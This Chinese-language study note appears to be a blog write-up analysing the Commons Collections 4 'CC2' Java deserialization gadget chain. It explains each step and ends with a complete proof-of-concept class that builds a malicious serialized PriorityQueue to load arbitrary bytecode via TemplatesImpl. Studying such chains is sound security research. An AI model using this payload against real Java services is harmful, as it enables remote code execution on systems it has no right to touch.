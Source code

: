 ## 前置知识

### javassist**字节码增强类库**

参考：https://www.yuque.com/m0re/demosec/okt2t3

了解这个库是怎么生成class字节码文件的。

其中CC1链在实际应用中存在一些限制，高版本的jdk就无法利用了，原因是jdk8u71版本中改写了`sun.reflect.annotation.AnnotationInvocationHandler`类的`readObject`方法，CC1链在jdk8u71版本以上已经被修复了。在jdk8u71以后的版本，重新构造了一条利用链CC2

## CC2链子分析

这个链子是放在CC4后面看的，这么理解可能更好一点，如果看过了CC4的链子，就会知道在初始化TrAXFilter的时候使用了`Transformer`数组，利用`InstantiateTransformer`去初始化`TrAXFilter.class`，到CC2则是抛弃这个利用点。

前面都一样，只是调用`newInstance`方法的方式变了，这里使用`InvokerTransformer`去调用`templates`的`transform`方法。

创建 TransformingComparator 类对象，传⼊一个临时的 Transformer 类对象，这是为了让代码能够不本地执行，在反序列化的时候执行

```java
TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));
```

创建 PriorityQueue 类对象 传入 transformingComparator 对象，但是此时向队列⾥添加的元素就是我们前⾯创建的 TemplatesImpl 对象了，这是因为最后调用 PriorityQueue.compare() 的时候是传入队列中的两个对象，然后 compare() 中调用 Transformer.transform(obj1) 的时候用的是传入的第一个对象作为参数，因此这里需要将 priorityQueue 队列中的第一个对象设置为构造好的 templates 对象，这里贪方便就两个都设置为 templates 对象了。

```java
PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);  
priorityQueue.add(templates);  
priorityQueue.add(templates);
```

最后再将值通过反射改回来。

```java
Class c = transformingComparator.getClass();  
Field transformingField = c.getDeclaredField("transformer");  
transformingField.setAccessible(true);  
transformingField.set(transformingComparator, invokerTransformer);
```

最终的POC

```java
package com.common.cc;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CC2 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        TemplatesImpl templates = new TemplatesImpl();
        Class cc3 = templates.getClass();
        Field nameField = cc3.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "sfabc");
        Field bytecodesField = cc3.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D://Test//Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        InvokerTransformer<Object, Object> invokerTransformer = new InvokerTransformer<>("newTransformer", new Class[]{}, new Object[]{});
        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        priorityQueue.add(templates);
        priorityQueue.add(templates);
        Class c = transformingComparator.getClass();
        Field transformingField = c.getDeclaredField("transformer");
        transformingField.setAccessible(true);
        transformingField.set(transformingComparator, invokerTransformer);
//        serialize(priorityQueue);
        unserialize("ser.bin");
    }
    public  static  void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public  static  Object  unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```